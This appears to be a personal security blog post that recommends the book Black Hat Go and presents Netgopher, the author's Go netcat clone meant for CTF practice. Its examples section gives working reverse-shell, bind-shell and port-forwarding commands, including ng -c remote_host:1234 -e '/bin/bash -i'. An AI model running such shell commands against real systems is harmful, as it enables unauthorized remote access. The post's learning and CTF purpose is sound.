 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre) - Check them out, they're very nice!
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting around to reading for an age. Long story short - I loved the first couple of chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new skillset to your box of tricks. Go will let you build tools (simple or complex, up to you!) that compile to a single (fairly small) 'blob', with simple concurrency and thread management, excellent cross-compilation (No Wine!) and actually a compilation and testing command that's almost as simple as developing a Python script.  

I'd suggest that working with Go like this is probably going to be a bit easier if you are comfortable working with Bash or maybe a little bit of Python (even just being able to read these will be enough), but don't let that hold you back if you're keen.  I've gone through the first chapter or two so far and in just a couple of evenings, the book has guided me through
 some really nice simple TCP tooling. 

My exposure to compiled languages stems from awkward Mathematical problems at Univeristy and learning Go was a little outfacing because I wanted to avoid that again, but Go is giving me serious Python vibes in the prevalence and usability of (mostly core) Libraries, I think I might be a convert! If you're worried about the learning curve, you could always get the basic syntax and conventions down via Codeacademy, Sololearn etc. etc. etc.

# Netgopher

Enter Netgopher. *What is that?* I hear you cry? Well to be honest, it's the same example Netcat mimic that every person starting on Black Hat Go or Black Hat Python (Another No Starch belter) puts on their Github! That said, I've tried to make my super simple implementation of Netcat (built using Go, following the first two chapters of the book, of course) a bit more useful for myself as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it up and added some better command line parsing and options goodness, whilst most of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP connections, command execution and built-in  port relaying (best bit IMHO). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection relay. A Pair of listeners are started, then a connecting relay is set up, by starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this script and have a go? If I can do this in a couple of evenings, you definately can! Read the source and play with NetGopher as set out below and happy hacking! 

The rest of this post is actually a glorified excerpt from the README on the [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel free to check that out too if you know where you're going from here.

# Installation

You can **but probably shouldn't**  get Netgopher by running the following command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing this way will only install ng in your local $GOPATH; additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/connection pair:

![Listener & connect example image](/assets/images/posts/netgopher/basic.gif)
{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of listeners and connections.A listener is started, then a connection made from the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this peaked your interest why not grab a copy of Netgopher and have a messaround, or read the source? If you have any thoughts, I welcome issues, pulls, emails, tweets and more, just hit one of the socials below. I hope I've insipired you to check out some Go, or even program a little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, [Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap sales of No Starch Press books- that's where I got my copy (in eBook form) and it might be a good idea to keep your eyes peeled for similar sales in future. Peace!

